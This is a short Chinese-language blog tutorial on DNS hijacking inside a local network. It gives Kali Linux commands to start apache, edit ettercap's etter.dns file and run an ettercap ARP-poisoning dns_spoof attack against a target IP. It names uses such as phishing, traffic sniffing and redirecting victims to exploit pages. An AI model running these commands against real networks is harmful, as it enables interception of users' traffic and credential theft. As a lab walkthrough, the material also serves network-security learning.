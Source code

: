 ```yaml
---
layout: post
title: "局域网中的dns劫持攻击"
categories:
- 今日头条
tags:
---
```

场景一、劫持到挂马页面利用ie flash漏洞强x内网里面的主机，场景二、网页钓鱼 场景三、嗅探目标主机上网流量 场景四、恶搞蹭网者

搭建环境

开启kali linux自带的apache 需要搭建钓鱼网站用到数据库的开启即可，这里演示只开启apache放一个单页面

root@kali:~# service apache2 start

![](http://p3.pstatp.com/large/16330000fb350fe56b5c)

进入apache默认网站目录 /var/www/html 编辑 index.html 页面

![](http://p3.pstatp.com/large/167f00009e93b78b3ffb)

下一步

root@kali:~# gedit /etc/ettercap/etter.dns

![](http://p1.pstatp.com/large/168500028286068e0c10)

这个台是目标主机 192.168.187.129

![](http://p3.pstatp.com/large/16330000fb321a174821)

执行命令 ettercap -i eth0 -T -P dns_spoof -M arp /192.168.187.129///

![](http://p3.pstatp.com/large/168500028287d2a75517)

主机所有的访问请求都会被劫持！

![](http://p3.pstatp.com/large/16330000fb334e6b6bc7)

欢迎加群与我们一起讨论：Yu1u Club 36839907